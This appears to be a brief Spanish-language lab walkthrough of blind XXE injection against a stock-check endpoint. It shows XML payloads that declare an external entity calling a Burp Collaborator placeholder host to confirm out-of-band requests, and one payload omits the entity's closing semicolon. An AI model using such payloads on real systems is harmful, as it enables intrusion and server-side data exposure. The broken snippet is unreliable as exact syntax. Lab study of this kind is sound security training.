





En el sitio web encontraremos un apartado donde podemos consultar el stock.



Al inyectar código  xml malicioso obtenemos que el servidor nos da un mensaje de "Invalid product ID".



Por lo que al ingresar un dominio del burp collaborator y enviar la solicitud, podemos observar que este hace la petición correctamente.

```c
<!DOCTYPE replace [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```



```c
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE replace [<!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">  ]>

<stockCheck><productId>1&xxe</productId><storeId>1</storeId></stockCheck>
```



